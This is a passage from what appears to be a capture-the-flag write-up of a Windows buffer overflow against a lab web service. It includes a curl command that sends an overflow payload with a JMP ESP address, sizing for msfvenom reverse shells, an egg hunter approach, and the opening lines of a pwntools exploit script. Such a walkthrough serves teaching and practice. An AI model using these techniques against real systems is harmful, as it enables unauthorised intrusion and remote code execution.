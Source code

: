 The first one looks fine, so I’ll go with 0x625012f0.

I can give it a test. With a break point at 0x625012f0:

    
    
    root@kali# curl --head http://10.1.1.146:8008/$(python -c 'print "A"*72 + "f0125062" + "B"*8')
    

When it hits the break, I can see that my Bs are at ESP:

![1554141287373](https://0xdfimages.gitlab.io/img/1554141287373.png)

If I step forward, I see I’m running the Bs:

![1554141443675](https://0xdfimages.gitlab.io/img/1554141443675.png)

### Egg Hunter

Space is an issue. I’ll remember that to get to the vulnerable code, I have to
send a HEAD request that is shorter than 219 bytes. So the first 6 bytes are
gone for “HEAD /”, and I need at least one “\n” on the end. Now I’m down to
212 bytes. So my buffer looks like:

    
    
    "HEAD /" + [72 bytes] + [JMP ESP, 8 bytes] + [132 bytes] + "\n"
    

I don’t have a lot of space here, especially remembering that the 72 byte and
132 byte buffers are actually half those sizes because they take input in hex,
which is 2 bytes per byte.

`msfvenom` stages reverse meterpreter is 351 bytes. Staged reverse shell is
341. The unstaged shell is down to 324. Still, none of these are close to
small enough to fit here.

This is where I’ll use an Egg Hunter. An Egg Hunter is a small bit of code
that will search through memory for a specific string, and then jump to the
code just after it. There are many pocs out there. `mona` has one built in, if
I run `!mona egg -t 0xdf`:

![1554146083825](https://0xdfimages.gitlab.io/img/1554146083825.png)

I can use the 32-byte output there as my shellcode. But I still need a way to
get my full payload into memory. The good news is that the memory isn’t reset
or cleared between requests. So I can send a POST request with my payload, and
it will likely still be in memory on my next request.

## Exploit

After a bunch of trial and error, I ended up with this script (it’s not my
most beautiful work):

    
    
      1 #!/usr/bin/env python
      2 
      3 import os
      4 import subprocess
      5 import sys
      6 
      7 from pwn import *
      8 from time import sleep
      9 
     10 context(terminal=['tmux', 'new-window'])
     11 context(os='windows', arch="i386")
     12 
     13 
     14 def clean_and_exit(msg, files):
     15     print(msg)